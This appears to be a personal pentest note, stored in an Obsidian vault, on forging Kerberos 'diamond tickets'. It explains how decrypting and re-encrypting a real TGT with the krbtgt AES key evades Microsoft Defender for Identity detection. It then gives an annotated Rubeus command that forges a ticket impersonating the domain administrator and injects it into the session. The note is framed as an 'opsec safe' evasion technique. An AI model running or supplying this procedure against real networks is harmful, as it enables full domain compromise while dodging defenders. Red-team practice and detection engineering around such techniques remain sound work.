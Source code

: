```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

- When we forge a `diamont ticket`, there is no pre-auth request corresponding to the forged ticket. This is an anomaly and can be detected by MDIs.
- To bypass this, we can request a TGT, decrypt it, modify if, then re-encrypt it, using the AES keys of the `krbtgt` account.
- Diamond ticket is the opsec safe version of the golden ticket.
### Rubeus
```powershell
Rubues.exe diamond
	/krbkey:<aes-key> # krbtgt aes account
	/user:<username> # user to use for as-req
	/password:<password> # password for the user to use for as-req
	/enctype:aes
	/ticketuser:administrator # user to create forged ticket for
	/domain:<domain-fqdn> # fqdn of the domain
	/dc:<dc-fqdn> # fqdn of the domain controller
	/ticketuserID # impersonated user ID, RID of administrator
	/groups
	/createnetonly:C\windows\system32\cmd.exe # logon type 9, only net requests.
	/show
	/ptt
	# instead of the passsing username & password, we can use
	/tgtdeleg # this will use the current user, and does not require password
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
